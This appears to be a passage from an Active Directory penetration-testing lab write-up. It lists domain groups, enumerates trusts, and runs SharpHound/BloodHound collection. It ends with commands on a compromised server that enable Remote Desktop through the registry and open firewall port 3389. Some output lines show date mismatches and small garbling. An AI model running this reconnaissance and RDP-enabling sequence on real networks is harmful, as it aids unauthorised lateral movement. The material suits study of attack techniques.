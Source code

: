 ```sh
Access Control Assistance Operators
Remote Management Users
System Managed Accounts Group
Storage Replica Administrators
Domain Computers
Domain Controllers
Cert Publishers
Domain Admins
Domain Users
Domain Guests
Group Policy Creator Owners
RAS and IAS Servers
Server Operators
Account Operators
Pre-Windows 2000 Compatible Access
Windows Authorization Access Group
Terminal Server License Servers
Allowed RODC Password Replication Group
Denied RODC Password Replication Group
Read-only Domain Controllers
Cloneable Domain Controllers
Protected Users
Key Admins
DnsAdmins
DnsUpdateProxy
SQLManagers
```

check domain trusts.

```sh
PS C:\bilal\AD> Get-NetDomainTrust

SourceName               TargetName    TrustType     TrustDirection
-----------              -----------   ----------    ---------------
Nebula.Cosmos.Local      Cosmos.Local  ParentChild   Bidirectional
```

before moving on, it's important to run `nslookup` on each machine in the environment to collect their IP addresses. it's also helpful to map out a graphical representation of the AD relationships, using BloodHound.

```sh
PS C:\bilal\AD>  cd .\BloodHound-master\BloodHound-master\
PS C:\ad\tools\BloodHound-master\BloodHound-master> cd .\Ingestors\
PS C:\ad\tools\BloodHound-master\BloodHound-master\Ingestors> . .\SharpHound.ps1
PS C:\ad\tools\BloodHound-master\BloodHound-master\Ingestors> Invoke-BloodHound -CollectionMethod All
Initializing SharpHound at 10:49 PM on 7/3/2024

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container
[+] Creating Schema map for domain NEBULA.COSMOS.LOCAL using path CN=Schema,CN=Configuration,DC=NEBULA,DC=COSMOS,DC=LOCAL
PS C:\ad\tools\BloodHound-master\BloodHound-master\Ingestors> Invoke-BloodHound -CollectionMethod LoggedOn

Initializing SharpHound at 10:49 PM on 7/3/2024

Status: 68 objects finished (+68 68)/s -- Using 103 MB RAM
Resolved Collection Methods: LoggedOn451
Compressing data to C:\ad\tools\BloodHound-master\BloodHound-master\Ingestors\20210703224909_BloodHound.zip
[+] Creating Schema map for domain NEBULA.COSMOS.LOCAL using path CN=Schema,CN=Configuration,DC=NEBULA,DC=COSMOS,DC=LOCAL
```

[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> whoami;hostname nebula\uatadmin
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow 
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Test-NetConnection 172.16.10.1 -CommonTCPPort rdp